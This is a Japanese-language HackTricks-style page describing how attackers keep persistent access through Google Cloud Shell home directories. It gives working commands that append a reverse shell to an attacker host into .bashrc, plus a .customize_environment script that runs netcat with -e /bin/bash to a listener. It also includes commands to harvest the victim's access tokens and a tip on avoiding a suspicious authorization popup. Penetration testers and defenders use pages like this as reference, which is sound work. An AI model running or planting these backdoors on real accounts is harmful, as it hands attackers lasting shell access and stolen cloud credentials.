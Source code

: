 # GCP - Cloud Shell Persistence

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)で**フォロー**する。
- **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)にPRを提出して、**ハッキングトリックを共有**する
*
*
*
* githubリポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的なバックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接クラウドリソースに対するコマンドラインアクセスを提供し、関連するコストはかかりません。

GoogleのCloud Shellには、**webコンソール**からアクセスするか、**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには、攻撃者にとって興味深い機能がいくつかあります：

1. **Google Cloudにアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織の所有者であっても可能です）。
2. このインスタンスは、**少なくとも120日間はホームディレクトリを維持**します（アクティビティがない場合）。
3. そのインスタンスのアクティビティを監視するための**組織の機能はありません**。

基本的には、攻撃者はユーザーのホームディレクトリにバックドアを設置し、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアは生き残り、攻撃者は次回実行されるたびにシェルを取得します。以下を実行するだけで：
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダにはもう1つのファイル**`.customize_environment`**があり、存在する場合はユーザーが**クラウドシェル**にアクセスするたびに**実行**されます（前のテクニックと同様）。ユーザーがクラウドシェルを「頻繁に」使用する限り、前のバックドアを挿入するか、以下のようなバックドアを挿入して持続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**認証が必要なアクションが初めて実行されるとき**、ユーザのブラウザにポップアップ認証ウィンドウが表示されます。このウィンドウはコマンドが実行される前に承認する必要があります。予期しないポップアップが表示されると、疑念を抱かれ、使用されている持続性手法が潜在的に危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェル（攻撃者として）から`gcloud projects list`を実行した際の、ブラウザのユーザセッションで表示されるポップアップです：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ただし、ユーザがアクティブにクラウドシェルを使用している場合、ポップアップは表示されず、ユーザのトークンを**収集**できます。
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、以下の3つのAPI呼び出しが使用されます:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST\] (ローカルで作成した公開鍵を追加する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST\] (インスタンスを起動する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET\] (Google Cloud ShellのIPアドレスを教えてくれる)

しかし、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) で詳細情報を見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>でAWSハッキングをゼロからヒーローまで学びましょう！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出する
*
*
* githubリポジトリ。

</details>

